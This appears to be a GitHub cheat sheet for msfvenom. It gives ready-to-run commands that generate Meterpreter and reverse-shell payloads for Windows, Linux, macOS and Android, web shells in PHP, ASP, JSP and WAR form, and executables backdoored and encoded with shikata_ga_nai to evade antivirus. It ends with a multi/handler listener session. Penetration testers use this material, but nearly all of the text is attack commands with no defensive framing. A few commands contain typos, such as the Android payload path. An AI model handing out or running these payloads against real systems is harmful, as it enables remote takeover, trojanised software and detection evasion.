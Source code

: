 # MSFVenom

MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

## Creating Binaries
The following create different binaries for meterpreter and reverse TCP shells:

### Creates a Reverse TCP Meterpreter Shell - Payload for Windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f exe -o payload.exe
```

### Creates a simple HTTP Payload for Windows
```
msfvenom -p windows/meterpreter/reverse_http LHOST={HOST/IP} LPORT={PORT} -f exe -o payload.exe
```

### Creates a simple TCP Shell for Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f elf -o payload.elf
```

### Creates a simple TCP Shell for Mac

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f macho -o example.macho
```

### Creates a simple TCP Payload for Android

```
msfvenom -p android/meterpreter/reverse/tcp LHOST={HOST/IP} LPORT={PORT} R -o example.apk
```

## Web Payloads

### Creates a Simple TCP Shell for PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f raw -o example.php
```

### Creates a Simple TCP Shell for ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f asp -o example.asp
```

### Creates a Simple TCP Shell for Javascrip
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f raw -o example.jsp
```

### Creates a Simple TCP Shell for WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f war -o example.war
```

## Windows Payloads

### Lists all avalaible encoder
```
msfvenom -l encoders
```

### Binds an exe with a Payload (Backdoors an exe)
```
msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -f exe -o example.exe
```

### Creates a simple TCP payload with shikata_ga_nai encoder
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -e x86/shikata_ga_nai -b '\x00' -i 3 -f exe -o example.exe
```

### Binds an exe with a Payload and encodes it
```
msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={HOST/IP} LPORT={PORT} -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o example.exe
```

## Getting a Metepreter Shell
```
kali@kali:~$ sudo msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```